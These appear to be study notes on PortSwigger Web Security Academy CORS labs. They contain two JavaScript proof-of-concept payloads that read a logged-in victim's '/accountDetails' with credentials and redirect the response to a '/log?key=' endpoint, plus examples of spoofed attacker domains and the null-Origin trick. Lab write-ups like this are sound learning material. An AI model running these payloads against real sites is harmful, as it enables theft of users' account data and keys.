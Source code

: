 ____

![[Pasted image 20250127181648.png]]

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a1100170345bf0c80f01209004f0064.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```

____
Errors parsing Origin headers

suppose an application grants access to all domains ending in:
`normal-website.com`
An attacker might be able to gain access by registering the domain:
`hackersnormal-website.com`
Alternatively, suppose an application grants access to all domains beginning with
`normal-website.com`
An attacker might be able to gain access using the domain:
`normal-website.com.evil-user.net`

____
The specification for the Origin header supports the value `null`

```html
<script>
    var req = new XMLHttpRequest();
    req.onload = reqListener;
    req.open('get','https://0a2b001b036b9a14821d6a3000c3008c.web-security-academy.net/accountDetails',true);
    req.withCredentials = true;
    req.send();

    function reqListener() {
        location='/log?key='+this.responseText;
    };
</script>
```